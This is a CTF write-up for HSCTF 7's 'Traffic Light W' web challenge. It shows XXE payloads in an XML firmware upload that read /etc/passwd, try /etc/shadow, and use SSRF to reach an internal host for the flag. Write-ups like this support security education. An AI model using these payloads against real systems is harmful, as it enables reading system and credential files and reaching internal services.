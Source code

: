 ```yaml
---
title: Traffic Light W
date: 2020-06-07
tags: web, traffic lights
ctf: HSCTF 7
---
```


# Traffic Light W

**Tags:** web, traffic lights

## Problem
```
🚦Can you figure out what's going on with this shady company?

https://traffic-light-w.web.hsctf.com/

Author: meow
```

## Solution
Visiting the webpage brings us to the dashboard of Shady Traffic Light Company. We are shown an seemingly meaningless [graph](./files/traffic-graph.png) and the status of five traffic lights:

![Image showing the status of the five traffic lights](./files/traffic-status.png)

We note that two of the five traffic lights are online, that the lights seem to run on Docker (```Docker Hostname``` is one of the table headers), and that there is a button to upload firmware to the traffic lights.

Trying to upload to Traffic Light 1004 gives us an error:
```
1004
Error: High CPU Usage
```

However, Traffic Light 1001 seems to work. We are greeted with a page to upload our XML firmware:
![Image showing the interface to upload XML firmware](./files/upload-firmware.png)

There is a provided example, with the following script:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
  <content>Red</content>
</root>
```

Running the example displays the word ```Red```, so the traffic light seems to parse and run our given XML input. We most likely need to run an XXE (XML External Entity) attack for LFI (Local File Inclusion), to access files stored on the server that we would unable to access otherwise.

We can create a payload that attempts to access ```/etc/passwd``` to see if XXE works:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>
    <content>&xxe;</content>
</root>
```

The page displays ```/etc/passwd```, confirming that XXE is possible:
![root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/mail:/sbin/nologin news:x:9:13:news:/usr/lib/news:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin man:x:13:15:man:/usr/man:/sbin/nologin postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin cron:x:16:16:cron:/var/spool/cron:/sbin/nologin ftp:x:21:21::/var/lib/ftp:/sbin/nologin sshd:x:22:22:sshd:/dev/null:/sbin/nologin at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin games:x:35:35:games:/usr/games:/sbin/nologin cyrus:x:85:12::/usr/cyrus:/sbin/nologin vpopmail:x:89:89::/var/vpopmail:/sbin/nologin ntp:x:123:123:NTP:/var/empty:/sbin/nologin smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin guest:x:405:100:guest:/dev/null:/sbin/nologin nobody:x:65534:65534:nobody:/:/sbin/nologin nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin](./files/xxe-result.png)

Nothing stands out as a flag, so we can try a few other files, such as ```/etc/shadow```. This would normally store encrypted user credentials. Modifying our payload to access ```file:///etc/shadow``` yields no response, so the file is read protected. Going back to the list of traffic lights, there was a second traffic light with the hostname of ```traffic-light-1004``` which we were unable to upload firmware to. The port is also port ``80``, which is commonly used for HTTP. Perhaps we could try accessing that:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://traffic-light-1004">]>
<root>
<content>&xxe;</content>
</root>
```

This payload was successful, and we get the following message:
```
If you're reading this... You found out that the traffic lights are fake. Don't tell anyone. Here's a flag to make you happy: flag{shh_im_mining_bitcoin} 
```

**Flag:** ```flag{shh_im_mining_bitcoin} ```
